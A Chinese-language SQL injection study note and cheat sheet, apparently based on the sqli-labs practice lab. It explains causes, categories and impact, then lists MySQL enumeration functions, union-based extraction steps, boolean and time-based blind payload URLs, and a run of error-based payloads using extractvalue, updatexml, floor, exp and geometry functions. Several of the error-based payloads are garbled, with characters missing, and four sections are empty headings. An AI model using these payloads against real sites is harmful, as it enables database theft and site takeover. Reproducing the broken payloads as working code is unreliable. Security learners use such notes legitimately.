


## 前言

SQL注入是比较常见的网络攻击方式之一，它不是利用操作系统的BUG来实现攻击，而是针对程序员编写时的疏忽，通过SQL语句，实现无账号登录，甚至篡改数据库

## SQL注入产生的原理

1. 对用户输入的参数没有进行严格过滤（如过滤单双引号 尖括号等），就被带到数据库执行，造成了SQL注入
2. 使用了字符串拼接的方式构造SQL语句

## SQL注入的分类

1. 从注入手法分类可以分为：联合查询注入、报错型注入、布尔型注入、延时注入、堆叠注入
2. 从数据类型上可以分为：字符型（即输入的输入使用符号进行过滤）、数值型（即输入的输入未使用符号进行过滤）
3. 从注入位置可以分类为：GET数据（提交数据方式为GET，大多存在地址栏）、POST数据（提交数据方式为POST，大多存在输入框中）、HTTP头部（提交数据方式为HTTP头部）、cookie数据（提交数据方式为cookie）

## SQL注入的危害

分为两类：危害数据库里的数据、直接危害到网站的权限(需要满足条件)

1. 数据库信息泄露
2. 网页篡改：登陆后台后发布恶意内容
3. 网站挂马 : 当拿到webshell时或者获取到服务器的权限以后，可将一些网页木马挂在服务器上，去攻击别人
4. 私自添加系统账号
5. 读写文件获取webshell

## SQL注入

### 系统函数

information_schema.schemata 记录所有数据库名
information_schema.tables：记录所有表名信息的表
information_schema.columns：记录所有列名信息的表
schema_name 数据库名
table_name：表名
column_name：列名
table_schema：数据库名
system_user() 查看当前Mysqlsql登录用户名，同下
user()  查看当前MySQL登录的用户名
database()   查看当前使用MySQL数据库名
version()  查看当前MySQL版本
@@version_compile_os 查看操作系统
@@HOSTNAME 主机名称
@@datadir 数据库路径

### 常用函数

1. floor() 向下取整
2. rand() 返回一个大于0小于1的浮点数
3. length(str) 返回字符串长度
4. ascii(str) 返回字符串str的最左面字符的ASCII代码值，如果str是空字符串，返回0；如果str是NULL，返回NULL
5. load_file() 读取本地文件 用法：select load_file('C:\phpstudy\www\sqli\Less-7\text.txt');[Mysql注入load_file常用路径](https://www.yuque.com/docs/share/8c58e841-32da-4c7e-a3ac-394f294a2aa6?)
6. into outfile 写文件 用法：select 'mysql is good' into outfile 'test.txt';
7. if(condition,A,B)如果条件condition为true，则执行A，否则执行B
8. chr(数字),ord('字母') python中将字符或布尔类型转成ascii码

### 字符串拼接函数

1. concat(str1,str2..)函数 没有分隔符串联多列结果
2. concat_ws(separator,str1,str2,...) 含有分隔符串联多列结果
3. group_concat(str1,str2,str3...) 用逗号，串联多行结果为一行
4. order by关键字(select * from table_name order by 3)表示按第三列排序
5. left(str,len) 对指定字符串从左边截取指定长度，正确返回1，错误返回0
6. right(str,len)对指定字符串从右边截取指定长度
7. substr(str,start,length)对于给定字符串，从start为开始截取length长度，如substr("chinese",3,2)="in".类似的还有substring()、mid()用法功能一致
8. regexp函数 匹配正则

### 判断注入点

**数字型**
通过2-1与1的回显结果判断是否为数字型注入。有可能被()或者(())括起来

**字符型**
用单引号和双引号进行闭合。也有可能被(),(())包裹

## 显错注入

Mysql在5.0以上版本加入了 information_schema 这个系统自带库 其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等

### 基本流程

1. 判断字段数目order by 4...
2. 判断显示位 union select 1,2,3,4...
3. 查看当前数据库union select 1,2,database()
4. 查表名union select 1,2,table_name from information_schema.tables where table_schema=database()
5. 查列名union select 1,2,column_name from information_schema.columns where table_name='表名' and table_schema=database()
6. 查询字段值union select 1,字段名,字段名 from 表名

## 盲注

### 基于布尔的盲注

这里主要使用mid(),substr(),left()这几个函数来截取字符串慢慢尝试

1. 猜解当前数据库名称长度 and (length(database()))>1
2. 通过http://127.0.0.1/sqli/Less-5/?id=1' and left((select database()),1)='s'--+ 判断第一位是否是s，然后可以用bp逐步进行爆破处理
3. 或者使用if来判断测试http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select database()),1,1))>156--+来通过二分法逐步判断
4. 之后就是正常的注入流程，不断的猜表名、猜字段名和猜内容

### 基于时间的SQL盲注

一般来说，在页面没有任何回显和错误信息提示的时候，我们就会测试时间盲注的方法

主要通过if(length(database())=8,1,sleep())这样来判断语句是否注入成功
之后就是类似于布尔盲注的形式进行判定注入

例：/?id = 1' and if((substr((select schema_name from information_schema.schmata limit 4,1),1,8)='security'),1,sleep(5))--+

## 报错注入

### floor()报错

> and select 1 from (select count(),concat(version(),floor(rand(0)2))x from information_schema.tables group by x)a);

### 通过ExtractValue报错

> and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

### 通过UpdateXml报错

> and 1=(updatexml(1,concat(0x3a,(select user())),1))

### 通过NAME_CONST报错注入

> and exists(selectfrom (selectfrom(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)

### 通过join报错注入

> select * from(select * from mysql.user ajoin mysql.user b)c;

### 通过exp报错注入

> and exp(~(select * from (select user()) a) );

### 通过GeometryCollection()报错注入

> and GeometryCollection(()select *from(select user() )a)b;

### 通过ploygon()报错注入

> and polygon (()select * from(select user())a)b;

### 通过multipoint()报错注入

> and multipoint (()select * from(select user() )a)b;

### 通过multingestring()报错注入

> and multlinestring (()select * from(select user() )a)b;

### 通过multpolygon()报错注入

> and multpolygon (()select * from(select user() )a)b;

### 通过linestring()报错注入

> and linestring (()select * from(select user() )a)b;

## POST注入

## 二次注入

## 宽字节注入

## DNS注入

通过sqli-labs进行学习
学习参考视频：[https://www.bilibili.com/video/BV1e441127Rd](https://www.bilibili.com/video/BV1e441127Rd)